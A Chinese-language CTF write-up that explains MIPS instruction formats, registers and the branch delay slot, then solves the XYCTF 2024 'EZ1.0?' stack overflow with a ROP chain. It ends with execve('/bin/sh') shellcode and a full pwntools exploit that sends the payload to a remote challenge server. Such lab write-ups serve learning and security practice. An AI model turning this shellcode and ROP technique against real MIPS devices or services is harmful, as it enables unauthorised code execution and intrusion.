









# MIPS-ROP

本文简要整理一下 mips 架构的指令格式和寄存器，并结合一道题目谈谈 mips rop 的基本思路

## mips 指令格式

mips 指令是定长的 32 bit，分为 3 种格式：R(Register)型指令，I(Immediate)型指令，J(Jump)型指令



**参考：**

https://blog.csdn.net/qq_44722674/article/details/120723470

https://ctf-wiki.org/assembly/mips/readme/

### R-Type

R 型也就是寄存器型，其 Op 都为零，其指令类型由 Func 决定。

- Op : opcode 用于指定指令的类型，对于所有 R 型指令，该域的值均为 0
- Rs : Source Register 通常用于指定第一个源操作数所在的寄存器编号
- Rt : Target Register 通常用于指定第二个源操作数所在的寄存器编号　　
- Rd : Destination Register 通常用于指定目的操作数（保存运算结果）的寄存器编号
- Shamt : Shift amount 用于指定移位指令进行移位操作的位数，对于非移位指令，该域设为 0。
- Func : 指令函数码，用于选择Op操作中的具体函数

常见指令：

- add  rd, rs, rt           # R[ rd ] <- R[ rs ] + R[ rt ]
- sub  rd, rs, rt           # R[ rd ] <- R[ rs ] - R[ rt ]
- sll  rd, rs, shamt      # R[ rd ] <- R[ rd ] << shamt
- jr  rs                        # 寄存器跳转

add 和 addu 的区别：add 处理有符号整数的加法，若发生溢出，则会出发异常；addu 处理无符号整数的加法，不会检测是否溢出

### I-Type

- addi  rt, rs, imm      # R[ rt ] <- R[ rs ] + imm                           # Add immediate
- lw     rt, imm(rs)      # R[ rt ] <- M[ R[ rs ] + imm ]                    # Load word，这里的字是 32 位的
- sb     rt, imm(rs)     # M[ R[ rs ] + imm ] <- R[ rt ]  & 0xff         # Store byte
- sw    rt, imm(rs)      # M[ R[ rs ] + imm ] <- R[ rt ]                    # Store word
- lui     rt, imm           # R[ rt ] <- imm << 16                               # Load upper immediate
- beq   rs, rt, imm      # if( R[ rt ] == R[ rs ] )   PC += 4 + 4*imm       

> 这里的 imm 表示的是分支跳转时跳转的指令条数，而 mips 指令是固定的 4 byte，所以是 imm<<2

### J-Type

- j  addr           # 无条件跳转

PC <- { PC[31:28], addr<<2}

- jal  addr        # 调用

PC <- { PC[31:28], addr<<2}

$ra <- PC + 4


## mips 寄存器

### 通用寄存器

在 mips 架构中有32个通用寄存器（正好 mips 指令的寄存器字段是 5 bit ），在汇编程序中可以用编号$0-$31表示，也就可以用寄存器的名字表示。

| 寄存器编号 | 名称    | 用途                                                         |
| :--------- | ------- | ------------------------------------------------------------ |
| $0         | $zero   | 常量0(constant value 0)                                      |
| $1         | $at     | 保留给汇编器(Reserved for assembler)                         |
| $2-$3      | $v0-$v1 | 函数调用返回值(values for results and expression evaluation) |
| $4-$7      | $a0-$a3 | 函数调用参数(arguments)                                      |
| $8-$15     | $t0-$t7 | temporaries，临时寄存器                                      |
| $16-$23    | $s0-$s7 | saved values，子函数使用时需先保存原寄存器的值               |
| $24-$25    | $t8-$t9 | temporaries，临时寄存器，补充$t0-$t7                         |
| $26-$27    | $k0-$k1 | Reserved for kernel.                                         |
| $28        | $gp     | 全局指针(Global Pointer)                                     |
| $29        | $sp     | 堆栈指针(Stack Pointer)                                      |
| $30        | $fp/$s8 | 栈帧指针(Frame Pointer)                                      |
| $31        | $ra     | 返回地址(return address)                                     |

### 特殊寄存器

PC（程序计数器，类似于 x86 中的 rip）等


## MIPS 栈溢出（ROP）

这里就以 xyctf 2024 EZ1.0? 为例





一个非常标准的栈溢出，但并没有直接的后门，不过程序是静态链接的，有着丰富的 gadget 可以利用

这边来分析一下 vuln 函数的汇编



这里插一嘴，关于为什么上面这些跳转的指令后面都要跟一个 nop：

> MIPS 分支延迟效应指的是在MIPS 架构中，当遇到分支指令时，紧随其后的那条指令（位于分支延迟槽）会在目标地址计算完成之前，即使发生跳转，仍然会被执行的现象。这是由于MIPS 采用的指令流水线技术导致的。具体来说:  
>
> **流水线效应:**
>
>  MIPS 处理器采用流水线技术，将指令的执行分解为多个阶段，例如取指、译码、执行、访存、写回。
>
> **分支指令的执行过程:**
>
> 当遇到分支指令时，处理器需要计算跳转目标地址，这个过程可能需要一些时间。但由于流水线的存在，分支指令后面的指令已经在流水线的译码或取指阶段了。
>
>   **分支延迟槽:**
>
> 分支指令后的那条指令就被称为分支延迟槽中的指令。即使分支指令最终决定跳转，延迟槽中的指令也已经开始执行了。
>
> **利用分支延迟槽:**
>
> 程序员或编译器可以利用分支延迟槽来执行一些不需要依赖于分支结果的指令，例如空操作或者一些可以提前执行的计算，从而提高指令的利用率和程序的效率。
>
> **总结**: 分支延迟效应是MIPS 架构中由于流水线技术导致的特性。理解这个效应有助于程序员更好地利用流水线，优化代码，提高程序性能。
>
> **Example:**
>
> 假设有如下MIPS 代码:
>
> ```assembly
>beq $t0, $t1, target  # 分支指令，如果$t0 == $t1，则跳转到 target
> addi $sp, $sp, 4      # 分支延迟槽中的指令
>...
> target:
>...
> ```
>
> 在执行 `beq` 指令时，即使 `$t0` 不等于 `$t1`，`addi $sp, $sp, 4` 也会被执行，因为它位于分支延迟槽中。

和 x86 一样，首先仍然是开辟一段栈空间作为 vuln() 的栈帧。在 mips 中，使用 `$ra` 来保存函数的返回地址，也即是 `jal vuln` 这条指令执行之后，$ra 就变成它的下一条指令的地址了，也就是返回地址。但由于在 vuln 函数中还调用了 `read` 函数，而 $ra 只有一个，所以 `sw  $ra, 0x18+var_s4($sp)` 就将 返回地址暂存到了 `$sp+0x5c` 的位置。而在要结束时，又从这个位置取出返回地址到 `$ra` 并跳转，实现函数的返回。

所以很自然地就想到 ROP 了。但 mips 较 x86 麻烦的一点在于，没有堆栈直接操作的指令，也就是就没有 push 和 pop 指令，所以 ROP 起来比较痛苦。

不过 MIPS 本身是不支持 NX 的，所以 mips 栈溢出常见的思路是 `ret2shellcode` 。

先来解决一下 shellcode 编写的问题。和 x86 一样，用 `syscall` 指令触发系统调用。$v0 传递系统调用号（也会作为系统调用的返回值），$a0-$a3 传递参数。根据要的执行 `execve("/bin/sh",0,0)` ，系统调用号是 4011，可以写出下面的 shellcode：

```assembly
li $t7, 0x6e69622f
li $t6, 0x68732f
sw $t7, 16($sp)
sw $t6, 20($sp)
# '/bin' 存入 $sp+16，'/sh\x00' 存入 $sp+20，注意是小端序

la $a0, 16($sp)
addiu $a1, $zero, 0
addiu $a2, $zero, 0
li $v0, 4011

syscall
```

**下面就是让程序执行 shellcode，这里介绍一条比较通用的 ROP 链。**

由于栈地址是不知道的，所以需要 gadget 来将 $sp 赋给某个寄存器，然后跳转到栈上执行 shellcode。

这里使用 [mipsrop](https://github.com/grayhatacademy/ida/blob/master/plugins/mipsrop/mipsrop.py) 这个 ida 插件，mipsrop.stackfinder() 来查找相关的 gadget



这里就用第一个吧，它将 $sp+56 的地址赋给 $a2，随后会跳转到 $s1。所以我们需要让 $s1 指向一个跳转到 $a2 的 gadget，并在 $sp+56 的位置布置好 shellcode。

#### 首先找到能跳转到 $a2 的 gadget

mips 中的间接跳转通常用 $t9 实现，使用 mipsrop 搜索一下 `mipsrop.find("move $t9,$a2")`



#### 然后找能控制 $s1 的 gadget

这种一般就比较多了，比如在 csu 附近的这一片，可以控制很多的寄存器，就包括 $s1，同时也能控制 $ra



所以我们在此处控制 $ra -> 0x0040B2A0，$s1 -> 0x0041FBF4。这里要注意一下分支延迟效应，jr  $ra 的同时栈指针会发生变化

#### 开始 ROP

简要梳理一下我们要干的事情：

1. vuln() 函数中通过溢出修改返回地址为 0x00401174 
2. 返回到 0x00401174 控制 $s1 指向 0x0041FBF4，并控制 $ra 返回到 0x0040B2A0
3. 返回到 0x0040B2A0 控制 $a2 指向栈上的 shellcode，然后会跳转到 $s1，而在第二步中我们已经将 $s1 修改成了 $a2 的间接跳转，也就是跳转到栈上执行 shellcode

有了这个思路，exp 也就不难写了，编写 payload 的时候需要调试来确定好栈上的各种偏移量，并且跟踪一下这几个跳转，这里就不作掩饰了，最终我们的程序成功执行了 shellcode：





#### exp

```python
from pwn import *
context(os='linux', arch='mips', endian='little')
elf = ELF("./mips")

# p = process(['qemu-mipsel-static', './mips'])

p = remote('gz.imxbt.cn', 20478)

# p = process(['qemu-mipsel-static', '-g', '1234', './mips'])
# gdb.attach(target=('localhost', 1234), exe=elf.path, gdbscript='b *0x400844')

p.recvuntil(b'welcome XYCTF mips world')

shellcode = asm('''
li $t7, 0x6e69622f
li $t6, 0x68732f
sw $t7, 16($sp)
sw $t6, 20($sp)

la $a0, 16($sp)
addiu $a1, $zero, 0
addiu $a2, $zero, 0
li $v0, 4011

syscall                
''')

payload = b'a'*0x44 + p32(0x00401174)
payload += b'a'*0x20 + p32(0x0041FBF4)
payload += b'a'*0x10 + p32(0x0040B2A0)
payload += b'a'*56 + shellcode

p.sendline(payload)

p.interactive()
```

